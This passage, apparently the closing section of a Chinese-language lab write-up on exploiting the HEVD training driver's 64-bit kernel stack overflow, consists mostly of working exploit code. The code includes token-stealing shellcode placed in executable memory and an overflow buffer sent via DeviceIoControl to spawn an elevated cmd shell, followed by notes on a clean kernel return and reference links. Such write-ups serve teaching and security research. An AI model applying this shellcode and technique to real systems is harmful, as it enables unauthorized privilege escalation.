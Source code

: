 ```cpp
        "\x48\x31\xc0\x65\x48\x8b\x80\x88\x01\x00\x00\x48\x8b\x40\x70\x48\x89\xc1\x49\x89\xcb\x49\x83\xe3\x07\xba\x04\x00\x00\x00\x48\x8b\x80\x88\x01\x00\x00\x48\x2d\x88\x01\x00\x00\x48\x39\x90\x80\x01\x00\x00\x75\xea\x48\x8b\x90\x08\x02\x00\x00\x48\x83\xe2\xf0\x4c\x09\xda\x48\x89\x91\x08\x02\x00\x00"
        
        // pop r15; pop r14; pop r13; pop r12; pop r11; pop r10; pop r9; pop r8; pop rsi; pop rdi; pop rdx; pop rcx; pop rbx; pop rax;
        "\x41\x5f\x41\x5e\x41\x5d\x41\x5c\x41\x5b\x41\x5a\x41\x59\x41\x58\x5e\x5f\x5a\x59\x5b\x58"

        "\x48\x83\xc4\x28"					// add rsp, 0x28
        "\xc3"								// ret
    };

    LPVOID addr = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (addr == NULL)
    {
        printf("VirtualAlloc failed\n");
        system("pause");

        return -1;
    }

    RtlCopyMemory(addr, shellcode, sizeof(shellcode));

    CHAR* chBuffer;
    int chBufferLen = 0x818;
    
    chBuffer = (CHAR*)malloc(chBufferLen + 0x8 + 0x8 + 0x8);
    memset(chBuffer, 0xff, chBufferLen);
    //memset(chBuffer + chBufferLen, 0x41, 0x8);
    *(INT64*)(chBuffer + chBufferLen) = (INT64)addr;
    memset(chBuffer + chBufferLen + 0x8, 0x42, 0x8);
    memset(chBuffer + chBufferLen + 0x10, 0x43, 0x8);

    DWORD size_returned = 0;
    BOOL is_ok = DeviceIoControl(dev, 0x222003, chBuffer, chBufferLen + 0x18, NULL, 0, &size_returned, NULL);
    CloseHandle(dev);
    system("pause");

    system("start cmd");

    return 0;
}
```

需要注意的是编写`exp`，最后需要能让`ioctl`的`handler`不崩溃的返回，才可以再起`cmd`，得到一个提权之后的进程，因此要恢复`ret`到`BufferOverflowStackIoctlHandler`之后的`add rsp, 0x28; ret`指令

## 参考

> https://bbs.pediy.com/thread-270159.htm
> https://h0mbre.github.io/HEVD_Stackoverflow_64bit/
> https://www.anquanke.com/post/id/245528
> https://50u1w4y.github.io/site/HEVD/homePage/
> https://www.abatchy.com/2018/01/kernel-exploitation-2